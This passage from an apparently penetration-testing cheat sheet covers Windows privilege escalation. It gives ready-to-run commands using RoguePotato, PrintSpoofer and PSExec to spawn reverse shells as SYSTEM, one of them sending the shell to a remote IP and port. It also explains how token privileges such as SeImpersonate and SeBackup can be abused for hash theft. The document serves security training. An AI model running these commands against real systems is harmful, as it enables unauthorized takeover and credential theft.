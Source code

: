 ### Rogue potato
- https://github.com/antonioCoco/RoguePotato
- https://github.com/antonioCoco/RoguePotato/releases

#### use PSExec64.exe to trigger a reverse shell running as the Local Service service account:
```
C:\temp\PSExec64.exe /accepteula -i -u "nt authority\local service" C:\temp\reverse.exe
```

#### Now run the RoguePotato exploit to trigger a reverse shell running with SYSTEM privileges 
```
C:\PrivEsc\RoguePotato.exe -r <IP> –l <PORT> -e "C:\temp\reverse.exe"
```

### Printspoofer
PrintSpoofer is an exploit that targets the Print Spooler service.
- https://github.com/itm4n/PrintSpoofer

#### Run printspoofer exploit
```
C:\PrivEsc\PrintSpoofer.exe –i -c "C:\temp\reverse.exe"
```

### User privileges
- https://github.com/hatRiot/token-priv
In Windows, user accounts and groups can be assigned specific “privileges”. These privileges grant access to certain abilities. Some of these abilities can be used to escalate our overall privileges to that of SYSTEM.

#### Check privileges
Note that “disabled” in the state column is irrelevant here. If the privilege is listed, your user has it.
```
whoami /priv
```

- SeImpersonatePrivilege
  - The SeImpersonatePrivilege grants the ability to impersonate any access tokens which it can obtain. If an access token from a SYSTEM process can be obtained, then a new process can be spawned using that token. The Juicy Potato exploit in a previous section abuses this ability.
- SeAssignPrimaryPrivilege
  - The SeAssignPrimaryPrivilege is similar to SeImpersonatePrivilege. It enables a user to assign an access token to a new process. Again, this can be exploited with the Juicy Potato exploit.
- SeBackupPrivilege
  -  The SeBackupPrivilege grants read access to all objects on the system, regardless of their ACL. Using this privilege, a user could gain access to sensitive files, or extract hashes from the registry which could then be cracked or used in a pass-the-hash attack.
- seRestorePrivilege
  - The SeRestorePrivilege grants write access to all objects on the system, regardless of their ACL. There are a multitude of ways to abuse this privilege: Modify service binaries, Overwrite DLLS used by SYSTEM processes, Modify registery settings
- SeTakeOwnershipPrivilege
  - The SeTakeOwnershipPrivilege lets the user take ownership over an object (the WRITE_OWNER permission). Once you own an object, you can modify its ACL and grant yourself write access. The same methods used with SeRestorePrivilege then apply.

